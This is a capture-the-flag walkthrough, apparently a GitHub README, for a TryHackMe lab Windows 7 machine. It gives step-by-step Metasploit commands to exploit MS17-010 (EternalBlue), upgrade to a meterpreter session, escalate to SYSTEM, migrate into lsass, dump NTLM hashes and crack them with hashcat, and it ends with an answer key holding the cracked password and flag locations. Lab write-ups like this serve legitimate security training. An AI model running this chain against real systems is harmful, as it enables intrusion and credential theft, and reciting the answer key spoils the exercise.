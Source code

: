 Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

``` $ nmap -Pn <ip> ```

Scanning shows us the services and ports on which they operate. Let's try to find out about distribution.

```$ nmap -A -T 5 <ip> -vv```

We can see that the machine is Windows 7.

4. Now we need to find out what the machine is vulnerable to (ms ?? - ???). So we type:

```$ nmap --script vuln <ip> -vv```

And we see smb-vuln-ms17-010 ( [ms17-010](https://www.exploit-db.com/exploits/42315) ).

5. Now let's try to access the machine.

6. Run [metasploit](https://www.metasploit.com/):

```$ msfconsole```

Search exploit to this susceptibility in msf:

```$ search ms17–010```

Now you see list available attacks. We due to the fact that we know the distribution, we choose this on Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Now we must find out what to options we must refill to attack:

```$ show options```

We see RHOST, so we complete it:

```$ set RHOSTS <ip>```

And run script:

```$ run```

We should access the console!

If necessary, make sure the exploit is working properly. Click enter and you should see a DOS shell.
Try to enter the shell background (CTRL + Z). If it fails, you may need to reboot the machine (deploy), but before that try running the script again and see if it works.

Push enter.

8. If you haven't entered the shell background (CTRL + Z). Find out on the internet how
convert shell to meterpreter in metasploit. What is the name of the post module we will use.
(Exact path, similar to the name of the exploit used).

9. Let's go back to the metasploit first:

```$ background```

Let's verify that the session still exists:

```$ session```

We should see information about the session, its type, etc.

10. Let's try to change shell to meterpreter:

```$ use multi/manage/shell_to_meterpreter```

Fill in all missing options to capture shell:

```
$ set LPORT 1234
$ set SESSION 1
```

Run:

```$ run```

If that doesn't work try create shell again.

11. Let's see the existing sessions:

```$ session```

We should see the second session, which is of type meterpreter.

Let's try to connect to it:

```$ sessions 2```

We should be able to see the meterpreter console.

12. Let's check if we escalated to NT AUTHORITY \ SYSTEM. Run this command to do this:

```$ getsystem```

We can freely change the shells from shell to meterpreter.

Let's check who we are:

```
$ shell
$ whoami
```

Now we back to meterpreter ( CTRL + Z ).

13. Just because we are a system does not mean that our process is also. Let's check the list of running processes:

```$ ps```

And remember the process id (PID).

14. Let's migrate the lsass.exe process. Having a meterpreter let's enter:

```$ migrate 708```

15. Let's dump non-primary user passwords for cracking later.

In our elevated shell (meterpreter) run the command:

```$ hashdump```

This will dump all password hashes on the computer if we have the appropriate permissions to do so.

Which user is not the default?

16. Copy the hashes to the file to crack. (these [NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager) hashes, paste them as you see in the console).

Let's organize the hash to crack. (user: hash <- the last "cluster of letters" in the line after : and before :::)

e.g.
```Administrator:31d6cfe0d16(...)```

17. I will use the hashcat to crack the hash:

``` $ hashcat -a 0 -m 1000 <HashFile>.txt <WordlistToCrack e.g. rockyou.txt>.txt --force --username --show ``` <-- show only after breaking

After a while we should get the password to Jon (alqfna22)

18. Now let's look for the flags:

1) The first one is in C:\flag1.txt

2) Next in C:\Documents and Settings\Jon\Documents\flag3.txt

3) And the last one in C:\Windows\System32\config\flag2.txt

Each flag can be shown with a command: ```type```
e.g. ``` type flag1.txt ```

19. Congratulations you have completed all the tasks. Good luck!

# Completing the headings

<details>
<summary>Task 1.</summary>

```
  2) 3

  3) ms17-010
```
</details>



Task 2. 

2) exploit/windows/smb/ms17_010_eternalblue

3) RHOSTS

Task 3.

1) post/multi/manage/shell_to_meterpreter

2) SESSION

Task 4.

1) Jon

2) alqfna22

Task 5.

1) Write flag number 1

2) Write flag number 2

3) Write flag number 3 
